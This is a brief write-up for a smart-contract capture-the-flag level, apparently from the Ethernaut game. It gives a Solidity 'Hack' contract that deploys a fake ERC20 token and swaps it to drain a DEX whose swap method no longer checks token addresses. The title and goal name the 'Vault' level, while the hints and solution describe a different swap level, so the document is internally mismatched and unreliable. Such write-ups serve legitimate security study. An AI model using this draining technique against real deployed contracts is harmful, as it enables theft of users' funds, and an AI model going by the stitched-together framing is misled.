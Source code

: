 # Vault Ethernaut

## Goals

=> Unlock the vault to pass the level!

### Hints

- How has the swap method been modified?

### Solution

- The weakness is in the swap method since it's not checking the from and to anymore we can send any ERC20 tokens to drain the contract we just need to deploy 2 contracts like below and swap from our newly created contract to the desired SwappableTokenTwo which will drain the Dex to zero

### Contract

```solidity
contract Hack is ERC20 {
    address private _dex;
    address public player;

    constructor(
        address dexInstance,
        string memory name,
        string memory symbol,
        uint initialSupply
    ) ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
        player = msg.sender;
        _mint(dexInstance, 100);
        approve(dexInstance, 100);
    }

    function approve(address owner, address spender, uint256 amount) public {
        require(owner != _dex, "InvalidApprover");
        super._approve(owner, spender, amount);
    }
}
```
